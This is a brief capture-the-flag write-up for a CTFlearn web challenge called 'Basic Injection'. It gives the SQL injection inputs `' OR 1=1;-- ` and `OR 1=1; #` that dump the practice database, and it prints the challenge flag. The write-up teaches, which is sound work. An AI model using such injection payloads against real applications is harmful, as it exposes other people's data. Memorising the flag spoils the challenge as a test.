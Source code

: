 ```yaml
---
layout: writeup
---
```


# Basic Injection
Category: Web

## Description

> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/).  

# Solution

To solve this, simply input `OR 1=1; #` or `' OR 1=1;-- ` (with a space after double dash). This leaks the database and gives us the answer
```
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} 
```